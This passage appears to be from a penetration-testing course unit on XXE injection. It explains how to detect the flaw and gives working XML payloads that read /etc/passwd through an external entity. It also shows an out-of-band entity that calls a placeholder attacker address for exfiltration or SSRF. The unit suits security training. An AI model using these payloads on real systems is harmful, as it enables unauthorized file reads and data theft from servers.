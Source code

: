 This Learning Unit covers the following Learning Objectives:

1. Understand how to test for XXE injection vulnerabilities
2. Learn several techniques for exfiltrating data using XXE vulnerabilities

If we encounter an application that handles XML input, we should test the application for an XXE vulnerability. For example, consider this simple internal entity reference.

```xml
<?xml version="1.0" ?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname "Replaced">
]>
<Contact>
  <lastName>&lastname;</lastName>
  <firstName>Tom</firstName>
</Contact>
```

When an XML parser encounters an entity reference, it replaces the reference with the entity's value. In this example, if the parser replaces the entity reference "&lastname;" with "Replaced" (the entity's value), the parser is vulnerable to XXE. In this case, if an application used the parsed results and displayed the contact's name, it would display "Tom Replaced".

It's important to note that in order for the entity to be accessed, the application must parse the XML. This means that the XML must be well-formed and in a format that the application expects. If we discover an application that processes XML, we should try to obtain an example XML document used by the application to use as the basis of our attack payload. If we introduce a new element in an XML document that an application is not expecting, the application may throw an error and not fully parse the XML.

Before we examine our case study, let's discuss a few ways we can exploit an XXE vulnerability to exfiltrate data from a system or web server.


------------
#### 10.3.1 Retrieving Files

Once we have verified the existence of an XXE vulnerability, we can attempt to retrieve files from the server. This is easiest when the application returns the parsed results immediately, or displays the results somewhere else within the application. For example, consider this external entity that references a file on the server.

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname SYSTEM "file:///etc/passwd">
]>
<Contact>
  <lastName>&lastname;</lastName>
  <firstName>Tom</firstName>
</Contact>
```

A vulnerable parser will load the file contents and place them in the XML document. In the example of Listing 14, a vulnerable parser would read in the contents of /etc/passwd and place that content in between the _lastName_ tags. If the server responds with the _lastName_ contents, or we can retrieve the data in another way after the XML has been parsed, we can use this vulnerability to read files on the server. This is a fundamental XXE attack technique.

In short, this technique is most easily exploited when we can retrieve the results of the XXE attack. This is why we often attempt to inject the XXE payload into a field that the application displays.

----------------

#### 10.3.2. Error-based Testing

If we cannot observe the results of our XXE attack and the application returns verbose error messages, we can use them to exfiltrate information. There are a few ways we can do this. If the application parses XML data and saves the results in a database, we can try to force a SQL error based on column data type or length. Alternatively, we could generate an error by forcing the parser to access a file that doesn't exist. We can stack parameter entities so that the contents of the file we want to retrieve are appended to the name of the non-existent file. When we retrieve these responses in the same "channel" or data stream as the exploit, this is known as _in-band exfiltration_.

-----------

#### 10.3.3. Out-of-Band Testing

We may also be able to retrieve data through another channel. This is known as _out-of-band exfiltration_. For example, since external entities can reference resources on other servers, we can use entities to access other servers in a _server-side request forgery_ (SSRF) attack or as a means to exfiltrate data back to a server we control.

The previous example referenced a URI with the file protocol. We could also use HTTP or HTTPS, as shown below.

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname SYSTEM "http://<our ip address>/somefile">
]>
<Contact>
  <lastName>&lastname;</lastName>
  <firstName>Tom</firstName>
</Contact>
```
When an application parses this type of external entity, it will send a GET request to the specified URL. This is useful when the application we are targeting has access to internal systems that might not be directly available to us. This may include internal applications within the company, or administrative interfaces accessible only to local users. Other protocols might be available depending on the programming language and application configuration.







